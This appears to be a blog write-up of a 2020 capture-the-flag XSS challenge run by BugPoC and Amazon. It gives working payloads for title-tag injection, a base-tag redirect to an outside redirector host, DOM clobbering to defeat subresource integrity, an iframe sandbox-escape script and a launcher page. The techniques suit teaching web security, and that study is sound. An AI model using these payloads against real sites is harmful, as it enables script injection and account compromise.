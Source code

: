 ```yaml
---
title: Wacky XSS challenge with amazon (by bugpoc)
date: 2020-11-10 00:00:00 +0530
categories: [web]
tags: [web]
---
```


Hey, welcome to the write up for wacky XSS challenge. Throughout the write-up, i will try to not to limit myself just to the payloads or steps i specifically used but will also give you guys a front row seat to the thinking process that went behind successful completion of this challenge.

The challenge was located at [https://wacky.buggywebsite.com/](https://wacky.buggywebsite.com/) and ended on 9th november 10pm EDT.

I am gonna divide the challenge into several parts for better explanation:

lets start

<div class="tenor-gif-embed" data-postid="10551255" data-share-method="host" data-width="100%" data-aspect-ratio="1.7785714285714287"><a href="https://tenor.com/view/oh-hi-hello-hey-shake-hands-rami-malek-gif-10551255">Oh Hi Hello GIF</a> from <a href="https://tenor.com/search/ohhi-gifs">Ohhi GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

**1\. The initial foothold html injection**
===========================================

You are greeted with this input field when you enter the challenge, after going around a bit i realised it has just 2 pages plus few scripts as well.

<img alt="" class="t u v jp aj" src="https://miro.medium.com/max/2400/1*wB1fqQOddGPBen0cM4vI4g.png" width="1098" height="885" srcSet="https://miro.medium.com/max/552/1*wB1fqQOddGPBen0cM4vI4g.png 276w, https://miro.medium.com/max/1104/1*wB1fqQOddGPBen0cM4vI4g.png 552w, https://miro.medium.com/max/1280/1*wB1fqQOddGPBen0cM4vI4g.png 640w, https://miro.medium.com/max/1400/1*wB1fqQOddGPBen0cM4vI4g.png 700w" sizes="700px" role="presentation"/>

the home page

Our text was reflected on the iframe page inside, simply viewing frame source revealed our text was getting reflected at 2 places.

1.  title tag
2.  the boring text with each letter in different font

A very simple payload would reveal that the title tag is vulnerable to html injection

```
> </title><script>alert(1)</script>
```


Our script obviously doesnt execute thanks to a defence mechanism called Content Security Policy. So lets move on to the next step.

<div class="tenor-gif-embed" data-postid="10667570" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/ready-lets-go-city-street-angela-moss-gif-10667570">Ready Lets Go GIF</a> from <a href="https://tenor.com/search/ready-gifs">Ready GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>
We are in, so let the games begin.

2\. Outsmarting the CSP
=======================

Go to network tab and look at the page headers:

> **content-security-policy:** script-src ‘nonce-ucbgymcgoplw’ ‘strict-dynamic’; frame-src ‘self’; object-src ‘none’;

few things to focus here:

1.  nonce — this makes it impossible to render any javascript until we have the randomly generated nonce value as the part of our script header. Since this changes every single time page reloads and theres no way we can predict it beforehand.
2.  frame-src —this specifies valid sources for nested browsing contexts loading using elements such as <frame> and <iframe>. [more here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-src)

If we get nonce, we can esentially run any script. So, naturally first we gonna try leak it somehow. There were several resources on this but unfortunately none actually works for us. So not-defeated, just keeping this aside, i try to poke around a bit.

[_https://csp-evaluator.withgoogle.com/_](https://csp-evaluator.withgoogle.com/) _— because we love to automate stuff_

Enter your csp above here, and we get a critical a high severity finding error

> **base-uri**\[missing\]
> 
> Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to ‘none’ or ‘self’?

**so what is base-uri or base tag?**

Lets say the webpage has a html tag _<xxx src=/path>,_ in other words whenever relative paths are used instead of the whole url, the page completes this as _www.origin/path_ however if the base tag(e.g.`<base target="_blank" href="https://example.com/">`)is present. Then its resolved to https://_example.com/path_ despite whatever page its on. [read more](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base).

So lets hunt for what all things are loaded from relative path:

```
1.  script.setAttribute(‘src’, ‘files/analytics/js/frame-analytics.js’);
2.  <source src=”movie.mp4" type=”video/mp4">
```

So we have 2 cases in which we can force the page to load our file instead.

In the 2nd case since type is mp4, you can load any arbitary mp4 and cause to **_remote file inclusion_** but thats really not our motive here.

So unless we find a vuln in the video parsing library of chrome and load a malicious video we cannot really cause an XSS.

Now, onto first — here a defence called **subresource integrity** has been applied.

_Why is this a big deal?_  
Because what this does is it loads the hash value of contents of the script and compares it with a hardcoded hash, so even if we are able to inport our own script we cant really change it to anything else other than the real script introduced by the developer. [more here](https://w3c.github.io/webappsec-subresource-integrity/).

Present payload:

```
> </title><base target=”iframe” href=”https://xxxxx.redir.bugpoc.ninja/">
```

Here i am using [mock endpoint](https://bugpoc.com/testers/other/mock) as well as [flexible redirector](https://bugpoc.com/testers/other/redir) by bugpoc, since its so so much easier than hosting a file over https server and constantly making changes to it and defining headers for it.

_looks like…._

We obviously cannot let subresource integrity stand in our way.

<div class="tenor-gif-embed" data-postid="10667577" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/its-time-for-us-die-serious-plotting-gif-10667577">Its Time For Us GIF</a> from <a href="https://tenor.com/search/itstime-gifs">Itstime GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

3\. Defeating the Subresource Integrity
=======================================

A hacker’s worst nightmare — a hash function.

Since the subresource is being hashed and compared to a hard coded value, we really have only 3 choices:

1.  Find an exception in implementaion of SRI where it skips validation.
2.  Create a different malicious script with same hash.
3.  Change the value we are comparing it to.

Since CVE-2016–1636, which was patched in Google Chrome 49.0.2623.75, There isnt any known exploit affecting the library. So the 1st choice is off the table.

We all know hash collisions exist. But only theoritically. So, I had rule out the 2nd choice as well.

So we have just 3rd choice left, which also seems impossible. _or is it?_

DOM CLOBBERING TO RESCUE!!!
---------------------------

Heres a snippet from the page source:
```
> <script nonce=xxxxxxxx>  
> window.fileIntegrity = window.fileIntegrity || {  
> ‘rfc’ : ‘ [https://w3c.github.io/webappsec-subresource-integrity/',](https://w3c.github.io/webappsec-subresource-integrity/',)  
> ‘algorithm’ : ‘sha256’,  
> ‘value’ : ‘unzMI6SuiNZmTzoOnV4Y9yqAjtSOgiIgyrKvumYRI6E=’,  
> — snip —
```
“A common pattern used by JavaScript developers is:

_var someObject = window.someObject || {};_

If you can control some of the HTML on the page, you can clobber the someObject reference with a DOM node, such as an anchor…”

This is well explained [here](https://portswigger.net/web-security/dom-based/dom-clobbering).

But the common payloads like:
```
> <form id=”fileIntegrity”><a id=”fileIntegrity” name=”value” href=”d8Ic1uV7IeB50l……..GWd12CUZbfm8czJw=”>
```
wont cut it here, because since we are using base tag as well, it gets modified to

> sha256-www.redir.com/d8Ic1uV……….d12CUZbfm8czJw=

instead of

> sha256-d8Ic1uV7I………Wd12CUZbfm8czJw=

After a bit of reading around, i finally formulated another payload — which can be found [here](https://portswigger.net/research/dom-clobbering-strikes-back) as well.

so our payload until now is:
```
> </title><base target=”iframe” href=”https://xxxxxxxx.redir.bugpoc.ninja/"><output id=fileIntegrity>s7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=</output>
```
We have basically declared a global variable(which overrides the hardcoded one):  
_fileIntegrity.value=the\_ hash\_of\_our\_file //you can try this in console_

P.S. to obtain the hash there are several ways, however entering the payload with wrong hash displays the right one in console so its just the fastest one.

We cannot yet pop alert right now due to iframe sandboxing but go on, try having console.log(“hacked”) inside your js file ;) you deserve some serotonin.

intercepted a message from:SRI to:iframe-sandbox //chapter 4 - The last desperate attempt to stop us

<div class="tenor-gif-embed" data-postid="10668530" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/arrest-struggle-stop-plead-stop-the-attack-gif-10668530">Arrest Struggle GIF</a> from <a href="https://tenor.com/search/arrest-gifs">Arrest GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

4\. Breaking out of the sandbox
===============================

Our challenge is to display an alert box, if you look here

> // create a sandboxed iframe  
> analyticsFrame = document.createElement(‘iframe’);  
> analyticsFrame.setAttribute(‘sandbox’, ‘**allow-scripts allow-same-origin**’);  
> analyticsFrame.setAttribute(‘class’, ‘invisible’);  
> document.body.appendChild(analyticsFrame);

Since our script is loaded inside an iframe, to be able to display an alert box we need an attribute _allow-modal_ which is not present here.

Stop googling for iframe sandbox bypass already, you wont find anything worthwhile, however if you go [here](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/iframe) and scroll down and down and down.  
You will see a warning message.

> **Notes about sandboxing:**
> 
> When the embedded document has the same origin as the embedding page, it is **strongly discouraged** to use both `allow-scripts` and `allow-same-origin`, as that lets the embedded document remove the `sandbox` attribute — making it no more secure than not using the `sandbox` attribute at all.

Our script to the original iframe with sandboxing.

<div class="tenor-gif-embed" data-postid="10667522" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/part-of-you-elevator-part-of-me-rami-malek-elliot-alderson-gif-10667522">Part Of You Elevator GIF</a> from <a href="https://tenor.com/search/partofyou-gifs">Partofyou GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

So we have to write a script that will remove the iframe and replace it with one without restriction. You following along? This sounds easy but in-reality there was really not much information on this.

[Dusekdan](https://github.com/dusekdan/RandomSecurity/tree/master/iframeSandboxDiscouragedCombination) offers us the poc for this —sadly however it really wont work for us right off the bat so heres my code with few tune ups(i haven’t deleted some of the original code for this presentation because it gives a good visualisation):
```
> const illegalCode = () => {  
> alert(“You should not see me, because original iframe did not have ‘allow-modals’. iframe had allow-scripts and same-origin though. A new iframe without sandbox attribute was created — and here I am.”);  
> //sadly this doesnt fire anyway  
> }
> 
> const escape = () => {  
> document.body.innerText = “Loaded into a frame.”;
> 
> let parent = window.parent;  
> let container = parent.document.getElementsByTagName(“iframe”)\[0\];  
> if (parent.document.getElementsByTagName(“iframe”)\[0\] != null) {  
> // Recreate and insert an iframe without sandbox attribute that  
> // plays by our rules.  
> let replacement = parent.document.createElement(“iframe”);  
> replacement.setAttribute(“id”, “escapedAlready”);  
> //instead of using src to this script again which wont work for us thanks to  
> //frame-src self csp, a clean work around was to enter data inside script tag  
> let g = document.createElement(“script”);  
> g.innerHTML = “alert(origin)”;  
> replacement.appendChild(g);  
> parent.document.body.append(replacement);
> 
> // Remove original iframe (avoid an infinite loop)  
> container.parentNode.removeChild(container);
> 
> //code in the else statement wont work for us since we arent opening this script //again  
> } else {  
> illegalCode();  
> }  
> }
> 
> escape();
```
What we did it we from inside the iframe went to the parent document, selected the tag then in replacement created an iframe again but without sandbox attribute and inside it we added our little script.

So go [_mock endpoint_](https://bugpoc.com/testers/other/mock)  by bugpoc and save this script, then to [_flexible redirector_](https://bugpoc.com/testers/other/redir) and paste the link there and get the url to be inserted in base tag.

Dont forget to add header

> access-Control-Allow-Origin: \*

Our payload now finally:
```
> </title><base target=”iframe” href=”[https://zu2i14sjykqz.redir.bugpoc.ninja/](https://zu2i14sjykqz.redir.bugpoc.ninja/)"><output id=fileIntegrity>s7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=</output>
```
Our payload^

<div class="tenor-gif-embed" data-postid="10668173" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/worry-confused-fire-me-what-awkward-gif-10668173">Worry Confused GIF</a> from <a href="https://tenor.com/search/worry-gifs">Worry GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

5\. Automate entering this payload
==================================

But convincing the victim to enter this in his webpage is a little too much.

If you just go to inspect element you will see the url of iframe with our payload.

Copy and paste the link in the new tab.

**It doesnt work, because the page needs to be loaded inside an iframe.**

lets look at the code again for the last time:

> // verify we are in an iframe  
> if (window.name == ‘iframe’){

so lets do just some more scripting for the [one last time](https://www.youtube.com/watch?v=BPgEgaPk62M):
```
> <html>  
> <body>
> 
> <p>Click the button to commence attack</p>
> 
> <button onclick=”myFunction()”>the button</button>
> 
> <script>
> 
> function myFunction() {  
> myWindow = window.open(“[https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20target=%22iframe%22%20href=%22https://zu2i14sjykqz.redir.bugpoc.ninja/%22%3E%3Coutput%20id=fileIntegrity%3Es7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=%3C/output%3E](https://wacky.buggywebsite.com/frame.html?param=%3C/title%3E%3Cbase%20target=%22iframe%22%20href=%22https://zu2i14sjykqz.redir.bugpoc.ninja/%22%3E%3Coutput%20id=fileIntegrity%3Es7ukMoQThWrleJgNJPZfhm0YhrdECzffE0ZjASRRO0U=%3C/output%3E)", “iframe”, “width=2000,height=1000”);  
> }
> 
> </script>
```
Opening a window and naming it as iframe does the trick and we get our beautiful alert box displaying origin and then one by amazon thanking us for our participation.

<div class="tenor-gif-embed" data-postid="10668183" data-share-method="host" data-width="100%" data-aspect-ratio="1.7777777777777777"><a href="https://tenor.com/view/panic-alarm-run-fear-vandal-gif-10668183">Panic Alarm GIF</a> from <a href="https://tenor.com/search/panic-gifs">Panic GIFs</a></div><script type="text/javascript" async src="https://tenor.com/embed.js"></script>

pwnd

Stay safe
=========

All the attack above are caused when developer trusts out of the box defence solutions too much.

> A fortress is only as strong as its weakest point.

The underlying principle is to strengthen each phase of defence mechanism, and to enforce a zero-trust-policy. The user input should always be considered malicious. **Thankyou for reading! and until next time.**

